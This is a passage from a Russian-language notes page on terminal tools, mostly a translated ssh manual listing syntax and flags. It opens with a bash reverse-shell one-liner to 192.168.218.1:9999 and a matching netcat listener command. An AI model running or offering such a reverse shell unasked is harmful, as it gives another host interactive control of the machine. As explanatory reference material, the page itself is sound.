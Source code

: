 На хосте с оболочкой необходимо выполнить команду:

`bash -i >& /dev/tcp/192.168.218.1/9999 0>&1`

Адрес `192.168.218.1` - это хост, на который вы хотите перенаправить оболочку. После [IP](./2.3.2.4%20IP.md) (обратите внимание, что вы также можете использовать [имя хоста](./2.3.2.2%20LocalAndWideAreaNetwork.md), но я настоятельно рекомендую использовать [IP](./2.3.2.4%20IP.md), чтобы избежать проблем с разрешением [имен хостов](./2.3.2.2%20LocalAndWideAreaNetwork.md)) вы должны указать номер [порта](./2.3.2.5%20Ports.md) (9999), на котором будет прослушиваться netcat listener.

Вам нужно запустить listener netcat на другой стороне. Дважды проверьте, что нет правил брандмауэра, запрещающих вам принимать соединения.

`nc -l 9999`

Некоторые версии netcat требуют добавить -p перед номером порта. Если все идет хорошо, вы должны получить оболочку на прослушивающем хосте.

### 2) ssh

**Синтаксис**

> ssh [-1246AaCfGgKkMNnqsTtVvXxYy] [-b bind_address] [-c cipher_spec] [-D [bind_address:]port] [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11] [-i identity_file] [-L [bind_address:]port:host:hostport] [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port] [-Q cipher | cipher-auth | mac | kex | key | protocol-version] [-R [bind_address:]port:host:hostport] [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]] [user@]hostname [command]

**Описание** ssh (SSH клиент) - это программа для регистрации на удаленной машине и выполнения на ней команд. Она предназначена для замены rlogin и rsh и осуществления безопасного шифрованного соединения между двумя независимыми компьютерами через незащищенную сеть. Подключения Х11 и произвольные [ТСР/IP](./2.3.2.3%20Protocols.md) порты также могут быть перенаправлены через защищенный канал. ssh подключается и регистрируется к указанному _имени_машины_. Пользователь должен доказать свою подлинность удаленной машине одним из нескольких способов в зависимости от используемой версии протокола.

**Флаги**

- `-a` Отключает перенаправление соединения агента аутентификации
- `-A` Включает перенаправление соединения агента аутентификации.
- `-c blowfish|3des` Выбор пароля для шифрования сеанса. 3des (тройной-des) это кортеж вида [encrypt-decrypt-encrypt](/2%20ComputerScience/2.5%20Cybersecurity/Encryption.md) с тремя различными ключами. Подразумевается, что это более безопасно, чем пароль des более не поддерживаемый в ssh. blowfish это быстрый блочный шифр, это кажется безопаснее и намного быстрее чем 3des. blowfish используется по умолчанию.
- `-c cipher_spec` Дополнительно, для [протокола](./2.3.2.3%20Protocols.md) версии 2, может быть указан через запятую список шифров в порядке их предпочтения. Для получения дополнительной информации смотри Ciphers.
- `-e ch|^ch|none` Устанавливает управляющие символы для сеансов с псевдо-терминалом (по умолчанию: "~"). Управляющие символы распознаются только в начале строки. Управляющий символ следующий за точкой (".") завершит соединение, следующий за [control-Z](https://github.com/eldaroid/iOSWiki/blob/master/1%20Common/1.3%20Terminal/1.3.1%20Teminal.md#shortcuts) приостановит соединение и следующий сам за собой означает один управляющий символ. Установка символа в значение [none](/5%20Swift/5.5%20AbstractMechanism/5.5.4%20AnyvsSome.md#в-чём-разница-между-nan-null-nil-и-none) отключает любые управляющие символы и делает сеанс полностью прозрачным.
- `-f` Запросит ssh перейти в фоновый режим только перед выполнением команды. Это полезно если ssh собирается запросить пароль или парольную фразу, но пользователь хочет сделать это в фоновом режиме.
- `-g` Позволяет удаленным машинам обращаться к локальным перенаправленным портам.
- `-i` файл_идентификации Указывает файл из которого считывается идентификация (приватный ключ) для RSA или DSA аутентификации.
- `-k` Отключает пересылку Kerberos tickets и AFS лексем.
- `-l` имя_регистрации Указывает имя регистрации пользователя в системе, используемое для подключения к удаленной машине.
- `-m mac_spec` Дополнительно, для протокола версии 2 может быть указан разделенный через запятую список MAC (код подлинности сообщения) алгоритмов в порядке предпочтения.
- `-n` Перенаправляет стандартный ввод из /dev/null (фактически, предотвращает чтение из стандартного ввода). Это должно использоваться когда ssh выполняется в фоновом режиме.
- `-N` Не выполнять удаленную команду. Это полезно если вы хотите только перенаправить порты (только протокол версии 2).